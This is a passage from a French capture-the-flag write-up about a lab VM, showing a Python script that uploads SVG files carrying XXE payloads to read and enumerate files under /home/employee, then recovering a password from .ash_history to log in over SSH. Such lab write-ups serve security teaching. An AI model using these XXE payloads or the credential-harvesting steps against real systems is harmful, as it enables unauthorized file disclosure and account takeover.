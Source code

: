 Je note l'existence du nom d'utilisateur `employee`.

Avec le script suivant je peux énumérer la présence de fichiers et dossiers sur la VM via une wordlist :

```python
import sys
import requests

data = """<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo[<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file://{}">]><foo>&xxe;</foo>"""
data = """<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo[<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///home/employee/{}">]><foo>&xxe;</foo>"""
sess = requests.session()

with open(sys.argv[1]) as fd:
    for path in fd:
        path = path.strip()
        response = sess.post(
                "http://192.168.56.216:3306/upload",
                files={"svg": ("image.svg", data.format(path))}
        )
        if "Is a directory" in response.text:
            print("d", path)
        elif "Permission denied" in response.text:
            print("e", path)
        elif "parser error" in response.text:
            continue
        else:
            print("f", path)
```

Ce qu'il fallait faire donc notre cas, c'est accéder au fichier `/home/employee/.ash_history` car on peut lire dans `/etc/passwd` que l'utilisateur utilise le shell `ash`.

On obtenait alors la commande suivante :

```bash
useradd -D bossdonttrackme -p superultrapass3
exit
```

## Si bibi déçu, monnaie rendue

La commande laisse supposer qu'il y a un utilisateur `bossdonttrackme` sur le système, mais ce n'est pas le cas.

On parvient tout de même à se connecter au SSH avec les identifiants `employee` / `superultrapass3`.

Je remarque le code `perl` suivant dans le dossier de l'utilisateur :

```perl
minuv2:~$ cat main.pl 
#!/usr/bin/perl

use 5.010;
use strict;
use warnings;

use XML::LibXML;

my $filename = 'image.svg';
my $dom = XML::LibXML->load_xml(location => $filename);

print $dom
```
